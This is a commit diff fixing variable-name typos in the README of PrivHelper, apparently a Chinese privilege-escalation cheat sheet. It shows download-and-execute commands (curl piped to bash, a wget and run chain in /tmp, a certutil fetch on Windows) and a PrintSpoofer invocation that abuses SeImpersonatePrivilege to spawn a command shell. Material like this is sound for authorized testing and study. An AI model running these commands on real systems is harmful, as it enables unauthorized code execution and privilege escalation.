

Before and after one commit to RasAlGhul-1/PrivHelper, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page.

Commit message:
修改错误表达

````diff
--- a/README.md
+++ b/README.md
@@ -135,7 +135,7 @@ tools/
 ```
 官方地址：https://github.com/peass-ng/PEASS-ng/releases/download/20260315-d7c1e6ce/
 curl $downloadurl | bash
-cd /tmp && wget $downloadurl && chmod +x $badfileh && ./$badfile
+cd /tmp && wget $downloadurl && chmod +x $badfile && ./$badfile
 
 ###
 第一条命令适用于有curl的情况下，第二条命令适用于没有curl但有wget的情况下
@@ -191,7 +191,7 @@ C:\windows\temp\$badfile
 ```
 项目地址:https://github.com/itm4n/PrintSpoofer
 certutil -urlcache -split -f $downloadurl C:\windows\temp\$badile
-C:\windows\temp\$file -i -c cmd
+C:\windows\temp\$badfile -i -c cmd
 
 ###
 这是一个利用SeImpersonatePrivilege特权进行提权的程序
````
